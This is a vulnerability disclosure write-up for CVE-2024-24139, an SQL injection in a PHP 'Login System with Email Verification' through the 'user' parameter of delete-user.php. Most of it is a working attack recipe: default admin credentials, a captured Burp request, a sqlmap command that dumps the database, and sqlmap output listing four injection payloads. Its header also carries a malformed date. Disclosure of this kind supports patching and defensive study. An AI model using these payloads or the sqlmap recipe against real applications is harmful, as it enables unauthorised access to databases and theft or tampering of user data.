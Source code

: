 # CVE-2024-24139:  Login System with Email Verification SQL Injection

+ **Exploit Title:** CVE-2024-24139:  Login System with Email Verification SQL Injection
+ **Date:** 2024-15-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17085/login-system-email-verification-using-php-phpmailer-and-mysql-source-code.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17085&title=Login+System+with+Email+Verification+Using+PHP%2C+PHPMailer+and+MySQL+with+Source+Code
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-24139

## References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24139
+ https://www.cve.org/CVERecord?id=CVE-2024-24139
+ https://nvd.nist.gov/vuln/detail/CVE-2024-24139

## Description:
Login System with Email Verification 1.0 allows SQL Injection via the 'user' parameter in "/login-system-with-email-verification/endpoint/delete-user.php?user=1". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.


## Proof of Concept:
+ Go to : "http://localhost/login-system-with-email-verification/"
+ Login with `admin`:`admin`
+ You will see users listed (if there are no users, you can create and test them yourself)
+ Press delete button to delete any user
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /login-system-with-email-verification/endpoint/delete-user.php?user=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'user' parameter to dump the database.
```
sqlmap -r r.txt -p user --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
Parameter: user (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: user=1' RLIKE (SELECT (CASE WHEN (8914=8914) THEN 1 ELSE 0x28 END))-- yPHd

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: user=1' AND EXTRACTVALUE(1135,CONCAT(0x5c,0x7178786a71,(SELECT (ELT(1135=1135,1))),0x716a717071))-- QTBB

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: user=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 5720 FROM (SELECT(SLEEP(5)))eLut)-- FJtg
---
[20:11:47] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.1 (MariaDB fork)
[20:11:47] [INFO] fetching current database
[20:11:47] [INFO] retrieved: 'login_email_verification'
current database: 'login_email_verification'
```
+ current database: `login_email_verification`

![Ekran görüntüsü 2024-01-15 041320](https://github.com/BurakSevben/Login_System_with_Email_Verification_SQL_Injection/assets/117217689/64edf624-3fec-491b-b2fc-91b2b1f0af2b)
